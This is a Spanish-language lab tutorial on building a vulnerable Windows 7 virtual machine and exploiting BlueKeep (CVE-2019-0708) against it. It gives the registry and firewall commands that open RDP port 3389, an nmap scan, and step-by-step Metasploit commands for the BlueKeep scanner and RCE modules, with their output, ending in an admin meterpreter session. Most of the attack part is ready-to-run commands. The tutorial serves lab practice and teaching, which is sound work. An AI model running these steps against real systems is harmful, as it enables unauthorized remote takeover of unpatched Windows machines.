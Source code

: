 ```yaml
---
icon: bacterium
---
```


# BlueKeep Conf y Explotación

Primero obtendremos la OVA de un windows 7.

URL OVA = https://drive.google.com/file/d/1bwoAZpjrCqWljwbMoLmoLQRC5i1W\_pWQ/view?usp=sharing

Y si queremos la ISO para configurar los siguientes pasos desde 0 en la siguiente URL.

URL ISO = https://drive.google.com/file/d/1XDKg0wmhKDtC-CoPcKQwWD34nWr58YKF/view?usp=sharing

> Credentials W7

URL = https://drive.google.com/file/d/1k\_ne4v4IHBWFvQti9vox0Gyq2XNTGglk/view?usp=drive\_link

Una vez que hayamos importado la ISO en VMWare, los pasos de configuracion seran los siguientes.

Dentro de Windows 7 en el menu de configuracion del inicio, seleccionaremos la siguiente edicion.

```
Windows 7 Professional
```

> NOTA IMPORTANTE

Es importante elegir esta edicion, ya que de lo contrario no podremos obtener el puerto RPD (3389) para hacer nuestras pruebas de penetracion con el exploit BlueKeep.

Seguimos los siguientes pasos de normal.

Una vez dentro abrimos el cmd como administrador y pondremos los siguientes coamndos para habilitar el puerto RPD (3389).

```shell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

Creamos una regla en el Firewall para permitirlo.

```shell
netsh advfirewall firewall add rule name="Allow RDP" protocol=TCP dir=in localport=3389 action=allow
```

Y con esto verificamos que el puerto 3389 este activo.

```shell
netstat -an | find "3389"
```

Ahora en nuestra maquina atacante, ejecutaremos el `nmap` para verificar que este activo el puerto 3389 (RPD) en la maquina victima.

```shell
nmap -sCV -p3389 <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-26 12:46 CEST
Nmap scan report for 192.168.5.140
Host is up (0.00042s latency).

PORT     STATE SERVICE    VERSION
3389/tcp open  tcpwrapped
| ssl-cert: Subject: commonName=exploitbluekeep
| Not valid before: 2024-07-25T10:44:48
|_Not valid after:  2025-01-24T10:44:48
MAC Address: 00:0C:29:24:51:3E (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.91 seconds
```

Vemos que si esta activo, por lo que ahora pasaremos a la explotacion del exploit `BlueKeep`.

## <mark style="color:purple;">Explotacion con exploit BlueKeep</mark>

Primero haremos un scanner para ver si es vulnerable al BlueKeep.

```shell
msfconsole -q
```

```shell
search bluekeep
```

Seleccionamos el scanner.

```shell
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

Configuramos para que scanee a la IP victima.

```shell
show options
```

```shell
set RHOSTS <IP>
```

Ejecutamos el exploit.

```shell
run
```

Info:

```
[+] 192.168.5.140:3389    - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.5.140:3389    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Por lo que vemos dice que si es vulnerable, por lo que pasaremos a explotarlo del todo.

```shell
search bluekeep
```

Utilizamos el exploit con el que nos va a crear una shell a la maquina windows.

```shell
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

Configuramos todo el exploit.

```shell
show options
```

```shell
set RHOSTS <IP>
```

```shell
show targets
```

Info:

```
Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Automatic targeting via fingerprinting
    1   Windows 7 SP1 / 2008 R2 (6.1.7601 x64)
    2   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6)
    3   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 14)
    4   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15)
    5   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15.1)
    6   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Hyper-V)
    7   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - AWS)
    8   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - QEMU/KVM)
```

Aqui seleccionamos el que se adapte a nuestras necesidades.

```shell
set target 4
```

Ejecutamos el exploit.

```shell
exploit
```

Y con esto ya nos habria creado una sesion con un meterpreter autenticada como admin.
